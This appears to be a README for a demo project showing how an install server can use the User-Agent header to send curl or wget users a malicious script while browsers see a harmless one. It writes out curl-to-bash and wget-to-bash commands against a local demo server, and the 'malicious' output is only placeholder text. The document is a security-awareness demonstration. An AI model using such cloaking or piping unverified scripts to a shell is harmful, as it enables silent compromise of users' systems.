 # pipe-to-bash
Piping install scripts you find on the internet to bash is a big security risk, yet many projects/vendors suggests this practice. This is a simple example showing why `curl/wget https://not-malicious.com/install.sh | bash` is bad and how you can get fooled even though you inspect the payload in the browser before executing it.

By using the `User-Agent` header we detect whether or not the call is coming from `curl` or `wget` commonly used when piping to bash, if so we supply the malicious payload. If the user is using any other `User-Agent` (such as Chrome, Firefox, etc) we will show a non-malicious install script.

## Run it
You can either use the binary in the root
```
./pipe-to-bash
```
or use `cargo`
```
cargo run
```

## Malicious
### Request
```
# wget -qO - http://localhost:3000/install.sh | bash, yields the same result

curl -sSL http://localhost:3000/install.sh | bash
```

### Response
```
Execute all the things, install malware, exfiltrate secrets, etc
```

## Non-malicious

### Request
```
curl -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0" -sSL http://localhost:3000/install.sh | bash
```
### Response
```
Fake install script, shown if you are not using wget/curl
```